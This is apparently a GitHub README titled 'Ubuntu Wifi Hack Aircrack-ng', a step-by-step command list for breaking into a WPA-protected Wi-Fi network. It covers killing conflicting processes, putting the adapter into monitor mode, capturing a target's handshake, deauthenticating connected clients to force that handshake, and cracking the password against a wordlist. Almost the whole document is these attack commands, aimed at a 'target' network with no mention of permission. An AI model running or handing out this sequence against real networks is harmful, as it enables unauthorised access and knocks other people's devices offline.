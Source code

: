 ## Ubuntu Wifi Hack Aircrack-ng (vol. 1) 

### Before we start

- ```<wlan0>``` stands for your wifi adapter
- ```<wlan0mon>``` stands for your wifi adapter in monitor mode
- ```<bssid>``` stands for the target bssid
- ```<ch>``` stands for the target channel
- ```<filename>``` stands for the filename

### Let's dive in...

See the devices
- ```iwconfig```

Check for any conflicting processes and kill them.
- ```sudo airmon-ng check kill```

Set adapter monitor mode on.
- ```sudo airmon-ng start <wlan0>```

Monitor networks
- ```sudo airodump-ng <wlan0mon>``` | Get the *bssid* and *channel* info

Montior and wait for WPA handshake
- ```sudo airodump-ng -w <filename> -c <channel> --bssid <bssid> <wlan0mon>```

Deauth attack on another terminal
- ```sudo aireplay-ng --deauth 0 -a <bssid> <wlan0mon>``` | directly
- ```sudo aireplay-ng -0 2 -a <bssid> -c <stationaddr> <wlan0mon>``` | to a specific device

Crack the password
- ```sudo aircrack-ng WPAcrack-01.cap -w /pentest/passwords/wordlists/darkc0de```

### Exit

- ```sudo airmon-ng stop <wlan0mon> && service NetworkManager restart```
